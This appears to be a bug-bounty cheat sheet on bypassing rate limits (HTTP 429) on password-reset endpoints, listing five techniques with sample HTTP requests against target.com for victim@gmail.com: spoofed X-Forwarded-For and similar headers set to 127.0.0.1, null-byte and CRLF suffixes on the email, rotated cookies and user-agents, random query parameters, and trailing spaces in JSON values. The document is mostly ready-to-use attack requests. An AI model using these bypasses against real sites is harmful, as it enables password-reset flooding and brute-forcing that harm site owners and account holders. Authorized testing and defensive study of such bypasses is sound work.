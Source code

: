 
1. Try add some custom header

```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```

For example:

```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.

```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address

```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```

Try this to bypass

```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint

```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

Try this to bypass

```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

5. Add space after the parameter value

```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```

Try this to bypass

```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%20429.md#references)

- [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
- [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)


